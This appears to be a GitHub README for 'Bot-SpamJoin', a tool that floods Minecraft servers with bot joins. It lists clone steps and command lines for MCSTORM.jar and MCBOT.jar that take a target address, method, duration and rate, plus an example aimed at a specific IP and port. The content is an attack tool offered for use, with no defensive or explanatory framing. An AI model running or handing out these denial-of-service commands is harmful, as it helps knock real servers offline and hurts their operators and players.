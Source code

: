 # Bot-SpamJoin

## Cre: Nguon Tong Hop
* git clone https://github.com/truongthienbt/Bot-SpamJoin.git
* cd Bot-SpamJoin
* java -jar .\MCSTORM.jar [ip+port] [protocols] [methods] [time] [CPS]
* or 
* java -jar .\MCBOT.jar <ip+port> <protocols> <methods> <time> <CPS>


* EXAMPLE: java -jar .\MCSTORM.jar 51.222.105.212:41649 47 join 60 -1
